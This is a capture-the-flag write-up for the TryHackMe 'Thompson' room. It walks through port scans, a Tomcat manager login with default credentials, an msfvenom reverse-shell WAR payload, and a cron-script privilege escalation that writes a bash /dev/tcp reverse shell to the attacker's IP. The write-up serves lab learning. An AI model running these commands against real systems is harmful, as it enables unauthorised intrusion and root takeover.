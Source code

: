 ```yaml
---
layout: default
---
```


_**Sept 30, 2020**_

[Thompson](https://tryhackme.com/room/bsidesgtthompson) Writeup

## Nmap Scan :

```
kali@kali:~$ nmap -sC -sV 10.10.218.79
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster Scan :

```
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/manager (Status: 302)
```

Checking the `/manager` with the default creds of user : `tomcat` & passwd : `s3cret` we get access.

Since we are logged in, we can create a `.WAR` payload using msfvenom and get a reverse connection.

```
kali@kali:~$ msfvenom -p java/shell_reverse_tcp lhost=10.8.14.157 lport=9991 -f war -o pwn.war
Payload size: 13402 bytes
Final size of war file: 13402 bytes
Saved as: pwn.war
```

## 1st Privilege Escalation :

I noticed that the id.sh is executed by bash every minute, so let's abuse it :

```
*  *    * * *   root    cd /home/jack && bash id.sh
```
```
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
tomcat@ubuntu:/home/jack$ d89d*************************a3a
```

## 2nd Privilege Escalation :

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.8.14.157/8080 0>&1" > id.sh
```
```
kali@kali:~$ nc -lnvp 8080
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n).

<br>
<br>

[back to main()](../../index.md)

<br>